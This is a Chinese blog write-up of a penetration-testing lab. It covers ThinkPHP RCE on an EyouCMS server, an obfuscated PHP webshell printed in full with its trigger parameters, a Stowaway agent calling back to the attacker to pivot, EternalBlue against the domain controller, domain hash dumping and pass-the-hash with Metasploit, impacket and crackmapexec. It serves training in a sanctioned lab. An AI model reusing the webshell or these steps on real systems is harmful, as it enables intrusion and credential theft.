









# Lab1


# lab1

# 端口扫描

```python
(base) ┌──(root㉿kali)-[/home/princess/Desktop/web/fscan]
└─# ./fscan -h 192.168.10.10 

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 2.0.0
[*] 扫描类型: all, 目标端口: 21,22,80,81,135,139,443,445,1433,1521,3306,5432,6379,7001,8000,8080,8089,9000,9200,11211,27017,80,81,82,83,84,85,86,87,88,89,90,91,92,98,99,443,800,801,808,880,888,889,1000,1010,1080,1081,1082,1099,1118,1888,2008,2020,2100,2375,2379,3000,3008,3128,3505,5555,6080,6648,6868,7000,7001,7002,7003,7004,7005,7007,7008,7070,7071,7074,7078,7080,7088,7200,7680,7687,7688,7777,7890,8000,8001,8002,8003,8004,8006,8008,8009,8010,8011,8012,8016,8018,8020,8028,8030,8038,8042,8044,8046,8048,8053,8060,8069,8070,8080,8081,8082,8083,8084,8085,8086,8087,8088,8089,8090,8091,8092,8093,8094,8095,8096,8097,8098,8099,8100,8101,8108,8118,8161,8172,8180,8181,8200,8222,8244,8258,8280,8288,8300,8360,8443,8448,8484,8800,8834,8838,8848,8858,8868,8879,8880,8881,8888,8899,8983,8989,9000,9001,9002,9008,9010,9043,9060,9080,9081,9082,9083,9084,9085,9086,9087,9088,9089,9090,9091,9092,9093,9094,9095,9096,9097,9098,9099,9100,9200,9443,9448,9800,9981,9986,9988,9998,9999,10000,10001,10002,10004,10008,10010,10250,12018,12443,14000,16080,18000,18001,18002,18004,18008,18080,18082,18088,18090,18098,19001,20000,20720,21000,21501,21502,28018,20880
[*] 开始信息扫描...
[*] 最终有效主机数量: 1
[*] 共解析 218 个有效端口
[+] 端口开放 192.168.10.10:80
[+] 端口开放 192.168.10.10:135
[+] 端口开放 192.168.10.10:445
[+] 端口开放 192.168.10.10:139
[+] 端口开放 192.168.10.10:3306
[+] 存活端口数量: 5
[*] 开始漏洞扫描...
[!] 扫描错误 192.168.10.10:135 - [-] 解码主机信息失败: encoding/hex: odd length hex string
[!] 扫描错误 192.168.10.10:445 - 无法确定目标是否存在漏洞
[*] NetBios 192.168.10.10   WORKGROUP\WIN-KOHRC1DGOL9           Windows Server 2012 R2 Standard 9600
[*] 网站标题 http://192.168.10.10      状态码:200 长度:25229  标题:易优CMS -  Powered by Eyoucms.com
[+] [发现漏洞] 目标: http://192.168.10.10
  漏洞类型: poc-yaml-thinkphp5023-method-rce
  漏洞名称: poc1
  详细信息: %!s(<nil>)
[!] 扫描错误 192.168.10.10:3306 - Error 1130: Host '192.168.122.57' is not allowed to connect to this MySQL server
[+] 扫描已完成: 5/5
[*] 扫描结束,耗时: 27.227696264s
                                 
```

# 192.168.10.10 rce

直接使用工具梭哈即可



上传一个 webshell

```python
<?php if ($_COOKIE['PHbOyj'] == "sd23sd3") {
    $yoLMnh='str_';
    $LQVYRx=$yoLMnh.'replace';
    $cysKpL=substr($LQVYRx,6);
    $VCyALJ='zxcszxctzxcrzxc_zxcrzxcezxc';
    if ($_GET['CTMXrD'] !== $_GET['qrkxzD'] && @md5($_GET['CTMXrD']) === @md5($_GET['qrkxzD'])){
    $kXiuGE = 'str_re';
    $VCyALJ=substr_replace('zxc',$kXiuGE,$VCyALJ);
    }else{die();}
    $cysKpL=$VCyALJ.$cysKpL;
    $yRmVuq = $cysKpL("4hzQvVe8TEXGKpofjDsI57aUORqt32ZylAkLJ6uiW1PNCHBbdF", "", "st4hzQvVe8TEXGKpofjDsI57aUORqt32ZylAkLJ6uiW1PNCHBbdFr4hzQvVe8TEXGKpofjDsI57aUORqt32ZylAkLJ6uiW1PNCHBbdF_r4hzQvVe8TEXGKpofjDsI57aUORqt32ZylAkLJ6uiW1PNCHBbdFep4hzQvVe8TEXGKpofjDsI57aUORqt32ZylAkLJ6uiW1PNCHBbdFl4hzQvVe8TEXGKpofjDsI57aUORqt32ZylAkLJ6uiW1PNCHBbdFace4hzQvVe8TEXGKpofjDsI57aUORqt32ZylAkLJ6uiW1PNCHBbdF");
    $qWPkiL = $yRmVuq("7AgZ2pxqUBmrl0kSheXG1PLy8DfMOYaQsv45Ntb3iFuIREcnCw", "", "base7AgZ2pxqUBmrl0kSheXG1PLy8DfMOYaQsv45Ntb3iFuIREcnCw64_d7AgZ2pxqUBmrl0kSheXG1PLy8DfMOYaQsv45Ntb3iFuIREcnCweco7AgZ2pxqUBmrl0kSheXG1PLy8DfMOYaQsv45Ntb3iFuIREcnCwde7AgZ2pxqUBmrl0kSheXG1PLy8DfMOYaQsv45Ntb3iFuIREcnCw");
    $RGZDmA = $qWPkiL($yRmVuq("7UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMR", "", "Y7UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMR3JlY7UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMRXRl7UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMRX27UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMRZ7UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMR17UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMRbmN07UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMRaW7UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMR9u7UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMR"));
    $cXJzrK = $qWPkiL($yRmVuq("WIziTAC3q12aBFwn6d4ShQHou8Rrxj0kU95ZgPXbDEKJGNmcyp", "", "ZXWIziTAC3q12aBFwn6d4ShQHou8Rrxj0kU95ZgPXbDEKJGNmcypZhWIziTAC3q12aBFwn6d4ShQHou8Rrxj0kU95ZgPXbDEKJGNmcypbCgkWIziTAC3q12aBFwn6d4ShQHou8Rrxj0kU95ZgPXbDEKJGNmcypX1BPWIziTAC3q12aBFwn6d4ShQHou8Rrxj0kU95ZgPXbDEKJGNmcypU1RWIziTAC3q12aBFwn6d4ShQHou8Rrxj0kU95ZgPXbDEKJGNmcypbJw=WIziTAC3q12aBFwn6d4ShQHou8Rrxj0kU95ZgPXbDEKJGNmcyp=WIziTAC3q12aBFwn6d4ShQHou8Rrxj0kU95ZgPXbDEKJGNmcyp"));
    $wHXKAz = $qWPkiL($yRmVuq("WHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7Vljuv", "", "WnNWHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7VljuvoWHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7Vljuvb3WHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7VljuvQWHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7VljuvwelRWHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7VljuvhWHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7VljuvMWHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7Vljuv0WHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7VljuvM2WHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7Vljuv"));
    $nePsjv = $qWPkiL($yRmVuq("Zu3PNeFQnGydOoBxg5bWKv9SAr1MILVRU2stDlT8JpqcX4Hjwh", "", "J10pZu3PNeFQnGydOoBxg5bWKv9SAr1MILVRU2stDlT8JpqcX4HjwhOw=Zu3PNeFQnGydOoBxg5bWKv9SAr1MILVRU2stDlT8JpqcX4Hjwh=Zu3PNeFQnGydOoBxg5bWKv9SAr1MILVRU2stDlT8JpqcX4Hjwh"));
    @$qOcGw = $cXJzrK;
    @$$qOcGw = $wHXKAz;
    @$xOzPT=$qOcGw.$$qOcGw;
    @$NCZbG=$xOzPT;
    @$$NCZbG=$nePsjv;
    @$JaKrv=$NCZbG;
    @$dcENB=$$NCZbG;
    @$OaKfS = $RGZDmA('$OValW,$zAlui','return "$OValW"."$zAlui";');
    @$JcwdP=$OaKfS($JaKrv,$dcENB);
    @$FhPurI = $RGZDmA("", $JcwdP);
    @$FhPurI();
    } ?>
```

```python
url/?CTMXrD[]=2&qrkxzD[]=1
JsQai[]=2&Vjdnk[]=1&Zshot0zTa3C6
Cookie:PHbOyj=sd23sd3
```

连接如下





# flag1



flag：go-flag{kn6anDUCzBqtjlX8}

# 内网信息收集

先查看一下 ip

```python
C:\> ipconfig
Windows IP 配置
以太网适配器 以太网 3:
   连接特定的 DNS 后缀 . . . . . . . : 
   本地链接 IPv6 地址. . . . . . . . : fe80::108f:d7d8:134d:aa83%17
   IPv4 地址 . . . . . . . . . . . . : 192.168.10.10
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 192.168.10.233
以太网适配器 以太网实例 0:
   连接特定的 DNS 后缀 . . . . . . . : 
   本地链接 IPv6 地址. . . . . . . . : fe80::dc33:689b:7c52:c82f%16
   IPv4 地址 . . . . . . . . . . . . : 192.168.20.10
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 192.168.20.1
隧道适配器 isatap.{4DA50EBB-5871-4387-AB71-FF1EF08A5B10}:
   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . : 
隧道适配器 isatap.{0A087C82-408A-4C20-8EB3-4E5C11A340D7}:
   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . : 
```

发现存在第二张网卡 192.168.20.10，上传一个 fscan 扫描一下

```python
[+] 端口开放 192.168.20.10:3306
[+] 端口开放 192.168.20.30:445
[+] 端口开放 192.168.20.20:445
[+] 端口开放 192.168.20.10:445
[+] 端口开放 192.168.20.30:139
[+] 端口开放 192.168.20.20:139
[+] 端口开放 192.168.20.10:139
[+] 端口开放 192.168.20.30:135
[+] 端口开放 192.168.20.20:135
[+] 端口开放 192.168.20.10:135
[+] 端口开放 192.168.20.30:88
[+] 端口开放 192.168.20.10:80
[*] NetBios 192.168.20.10   WORKGROUP\WIN-KOHRC1DGOL9           Windows Server 2012 R2 Standard 9600
[*] NetInfo
[*] 192.168.20.30
   [->] WIN-7NRTJO59O7N
   [->] 192.168.20.30
[*] NetInfo
[*] 192.168.20.20
   [->] cyberweb
   [->] 192.168.20.20
[*] 网站标题 http://192.168.20.10      状态码:200 长度:25229  标题:易优CMS -  Powered by Eyoucms.com
[+] MS17-010 192.168.20.20	(Windows Server 2012 R2 Standard 9600)
[+] MS17-010 192.168.20.30	(Windows Server 2008 R2 Standard 7600)
[*] NetBios 192.168.20.20   cyberweb.cyberstrikelab.com         Windows Server 2012 R2 Standard 9600
[+] [发现漏洞] 目标: http://192.168.20.10
  漏洞类型: poc-yaml-thinkphp5023-method-rce
  漏洞名称: poc1
  详细信息: %!s(<nil>)

```

发现 MS17-010 192.168.20.20	(Windows Server 2012 R2 Standard 9600)

# 搭建一层代理

在攻击机启动

```python
stowaway>windows_x64_admin.exe -l 9999 --heartbeat
[*] Starting admin node on port 9999

    .-')    .-') _                  ('\ .-') /'  ('-.      ('\ .-') /'  ('-.
   ( OO ). (  OO) )                  '.( OO ),' ( OO ).-.   '.( OO ),' ( OO ).-.
   (_)---\_)/     '._  .-'),-----. ,--./  .--.   / . --. /,--./  .--.   / . --. /  ,--.   ,--.
   /    _ | |'--...__)( OO'  .-.  '|      |  |   | \-.  \ |      |  |   | \-.  \    \  '.'  /
   \  :' '. '--.  .--'/   |  | |  ||  |   |  |,.-'-'  |  ||  |   |  |,.-'-'  |  | .-')     /
    '..'''.)   |  |   \_) |  |\|  ||  |.'.|  |_)\| |_.'  ||  |.'.|  |_)\| |_.'  |(OO  \   /
   .-._)   \   |  |     \ |  | |  ||         |   |  .-.  ||         |   |  .-.  | |   /  /\_
   \       /   |  |      ''  '-'  '|   ,'.   |   |  | |  ||   ,'.   |   |  | |  | '-./  /.__)
    '-----'    '--'        '-----' '--'   '--'   '--' '--''--'   '--'   '--' '--'   '--'
                                    { v2.2  Author:ph4ntom }
[*] Waiting for new connection...
[*] Connection from node 192.168.10.10:50162 is set up successfully! Node id is 0
(admin) >>
```

在靶机启动

```python
C:\> windows_x64_agent.exe -c 172.16.233.2:9999
```

在 stowaway\_admin 交互里执行，搭建 socks 代理

```python
detail
topo
use 0
socks 1080
```



然后在攻击机（kali）走代理做内网探测：

```python
# /etc/proxychains4.conf 追加一行
socks5 172.16.233.2 1080
```

# 192.168.20.30 — MS17-010（域控 DC，端口88）

在打 192.168.20.20 — MS17-010 好像有问题一直没打通，好像问题如下

> 1.Win2012R2 默认禁用了匿名 named pipe 访问，ms17_010_psexec 需要可用的 named pipe  
> 2.eternalblue 模块对 2012R2 本身就不稳定，加上代理延迟更容易超时

Win2008R2 没有 named pipe 限制，EternalBlue 成功率很高。拿下域控后直接 hashdump 抓域管 hash，然后 psexec 横向到 .20 这台靶机：

```python
proxychains4 msfconsole 

use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.20.30
set PAYLOAD windows/x64/meterpreter/bind_tcp
set RHOST 192.168.20.30
set LPORT 4445
run
```



shell 命令失败是因为 proxychains 干扰了 meterpreter 的本地 socket 通信（它尝试连 127.0.0.1 的随机端口被代理拦截了）。这是个已知问题，不影响你已经拿到的 session。

直接用 meterpreter 内置命令操作就行，不需要 shell：

```python
# 查看当前用户
getuid

# 查看系统信息
sysinfo

# 抓hash（这是关键，拿域管hash）
hashdump

# 或者用kiwi抓更完整的凭据
load kiwi
creds_all

# 查看域信息
run post/windows/gather/enum_domain

# 查看IP确认是.30
ipconfig
```



```python
Administrator:500:aad3b435b51404eeaad3b435b51404ee:94bd5248e87cb7f2f9b871d40c903927:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5bc02b7670084dd30471730cc0a1672c:::
cyberweb:1105:aad3b435b51404eeaad3b435b51404ee:2de5cd0f15d1c070851d1044e1d95c90:::
WIN-7NRTJO59O7N$:1000:aad3b435b51404eeaad3b435b51404ee:c583af2ea1c11dd9bc8fd5f62e3621ff:::
CYBERWEB$:1103:aad3b435b51404eeaad3b435b51404ee:159e4fe317f67f46dc038affe138f763:::
```

整理一下关键信息：

```python
域名: CYBERSTRIKELAB / cyberstrikelab.com
域控: WIN-7NRTJO59O7N (192.168.20.30)

域管 Administrator NTLM: 94bd5248e87cb7f2f9b871d40c903927
cyberweb 用户 NTLM:       2de5cd0f15d1c070851d1044e1d95c90
krbtgt NTLM:              5bc02b7670084dd30471730cc0a1672c
```

# flag3

读取一下 flag3

```python
meterpreter > cat C:\\flag.txt
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
go-flag{R0M4QwsS6EQp97lw}[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
meterpreter > 
```

flag：go-flag{R0M4QwsS6EQp97lw}

# 用域管 hash PTH 横向打 .20

现在直接用域管 hash PTH 横向打 .20

```python
background

use exploit/windows/smb/psexec
set RHOSTS 192.168.20.20
set SMBUser Administrator
set SMBDomain CYBERSTRIKELAB
set SMBPass aad3b435b51404eeaad3b435b51404ee:94bd5248e87cb7f2f9b871d40c903927
set PAYLOAD windows/meterpreter/bind_tcp
set RHOST 192.168.20.20
set LPORT 4446
run
```

二层网络无法反弹，必须用 bind_tcp 正向连接。成功获得 SYSTEM 权限。

‍



上面这个hash PTH 横向打 .20 用 msf 复杂了点，可以使用 Impacket 套件（Kali 自带，最常用）：

```python
# psexec.py - 最经典
proxychains4 impacket-psexec CYBERSTRIKELAB/Administrator@192.168.20.20 -hashes aad3b435b51404eeaad3b435b51404ee:94bd5248e87cb7f2f9b871d40c903927

# wmiexec.py - 不落地服务，更隐蔽
proxychains4 impacket-wmiexec CYBERSTRIKELAB/Administrator@192.168.20.20 -hashes aad3b435b51404eeaad3b435b51404ee:94bd5248e87cb7f2f9b871d40c903927

# smbexec.py
proxychains4 impacket-smbexec CYBERSTRIKELAB/Administrator@192.168.20.20 -hashes aad3b435b51404eeaad3b435b51404ee:94bd5248e87cb7f2f9b871d40c903927

# atexec.py - 通过计划任务执行
proxychains4 impacket-atexec CYBERSTRIKELAB/Administrator@192.168.20.20 -hashes aad3b435b51404eeaad3b435b51404ee:94bd5248e87cb7f2f9b871d40c903927 "whoami"

```

或者使用其他的

```python
# CrackMapExec (cme/nxc) - 批量PTH神器
proxychains4 crackmapexec smb 192.168.20.20 -u Administrator -H 94bd5248e87cb7f2f9b871d40c903927 -d CYBERSTRIKELAB -x "type C:\flag.txt"

# evil-winrm（如果5985端口开了）
proxychains4 evil-winrm -i 192.168.20.20 -u Administrator -H 94bd5248e87cb7f2f9b871d40c903927

```



# flag2

```python
meterpreter > cat C:\\flag.txt
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
go-flag{Nb8VOT8X9SbIzyDI}[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
meterpreter > 
```

flag：go-flag{Nb8VOT8X9SbIzyDI}

# 总结

网络拓扑

```python
Kali (172.16.233.2)
  └─ Stowaway Node 0 (一层代理 socks5:1080)
       └─ 192.168.10.10 (WIN-KOHRC1DGOL9, 已拿下 SYSTEM)
            └─ 二层网络 192.168.20.0/24
                 ├─ .10 WIN-KOHRC1DGOL9 (Win2012R2, 易优CMS, ThinkPHP5 RCE, MySQL)
                 ├─ .20 cyberweb (Win2012R2, 域成员 cyberstrikelab.com, MS17-010)
                 └─ .30 WIN-7NRTJO59O7N (Win2008R2, 域控 DC, MS17-010)

```

**为什么域管 hash 能打 .20？**

Windows 域的认证机制是 NTLM 认证，整个过程只校验密码的 hash 值，不需要明文密码。流程是：

1. 客户端发送用户名给目标
2. 目标返回一个随机 challenge
3. 客户端用 NTLM hash 加密 challenge 发回去
4. 目标把这个加密结果发给域控验证
5. 域控用自己存储的 hash 做同样计算，匹配则认证通过

所以只要有 hash 就等于有密码。而 .30 是域控，hashdump 拿到的是整个域的 NTDS 数据库，其中 Administrator 是域管账户，对所有域成员机器（包括 .20）都有完全管理权限。这就是 Pass The Hash 攻击的核心原理——拿下域控 = 拿下整个域。

‍

**怎么判断的 .30 是域控？**

1. .30 开放了 88 端口。88 是 Kerberos 认证服务的端口，在 Windows 域环境中只有域控制器才会运行 Kerberos 服务。普通域成员机器不会开 88。
2. 打下 .30 后跑了 run post/windows/gather/enum_domain，返回结果直接确认了：

   ```python
   [+] Domain Controller: WIN-7NRTJO59O7N.cyberstrikelab.com (IP: 192.168.20.30)
   ```

另外 hashdump 能导出 krbtgt 账户的 hash 也是佐证——krbtgt 是 Kerberos 票据授权账户，只存在于域控的 NTDS 数据库中，普通域成员机器上不会有这个账户。

‍


---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/lab1/  

